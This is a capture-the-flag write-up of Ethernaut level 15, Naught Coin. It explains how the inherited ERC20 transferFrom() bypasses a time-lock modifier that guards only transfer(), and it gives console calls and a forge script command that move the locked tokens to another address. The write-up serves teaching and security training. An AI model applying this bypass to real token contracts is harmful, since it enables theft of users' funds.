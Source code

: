 <div align="center">
<p align="left">(<a href="https://github.com/Pedrojok01/Ethernaut-Solutions?tab=readme-ov-file#solutions">back</a>)</p>

<img src="../assets/levels/15-naught.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 15 - Naught Coin</strong></h1>

</div>
<br>

Read the article directly on my blog: [Ethernaut Solutions | Level 15 - Telephone](https://blog.pedrojok.com/the-ethernaut-ctf-solutions-15-naught-coin)

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Goals](#goals)
- [The hack](#the-hack)
- [Solution](#solution)
  - [In the browser's console](#in-the-browsers-console)
  - [With Foundry using `forge`:](#with-foundry-using-forge)
- [Takeaway](#takeaway)
- [Reference](#reference)

## Goals

<img src="../assets/requirements/15-naught-requirements.webp" width="800px"/>

## The hack

The NaughtCoin level is a bit weird as it is hard to imagine that anything like this would ever be implemented. However, it teaches us a valuable lesson about the importance of correctly implementing inherited functions.

We can see that the `transfer()` function has a `lockTokens` modifier.

```javascript
modifier lockTokens() {
    if (msg.sender == player) {
      require(block.timestamp > timeLock);
      _;
    } else {
     _;
    }
}
```

So it looks like we won't be able to use the `transfer()` function to transfer the tokens to another address. But in the ERC20 standard, there is also a `transferFrom()` function, which allows another address to execute a transfer on our behalf if approved.

Since the `transferFrom()` function is not implemented in the NaughtCoin contract, its implementation will be the one defined in the OpenZeppelin contract, without the `lockTokens` modifier.

In other words, we can use the `transferFrom()` function to transfer the tokens to another address without worrying about the time lock.

## Solution

### In the browser's console

1.  Let's find out how many tokens you have:

```javascript
const balance = await contract.balanceOf(player);
```

2.  Approve another address to transfer tokens on your behalf:

```javascript
await contract.approve("TheFutureCoinOwner", balance);
```

3.  Transfer the tokens to another address using the transferFrom function:

```javascript
await contract.transferFrom(player, "TheFutureCoinOwner", balance);
```

### With Foundry using `forge`:

Edit the `futurCoinOwner` address in the `script/15_NaughtCoin.s.sol` file:

```javascript
 address futurCoinOwner = "your wallet address here";
```

Then run the script:

```bash
forge script script/15_NaughtCoin.s.sol:PoC --rpc-url sepolia --broadcast --watch
```

## Takeaway

- Always be careful when inheriting from other contracts. And make sure to implement the inherited functions correctly.

## Reference

- The Seneca hack & non implemented `pause()` function: https://rekt.news/seneca-protocol-rekt/

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>

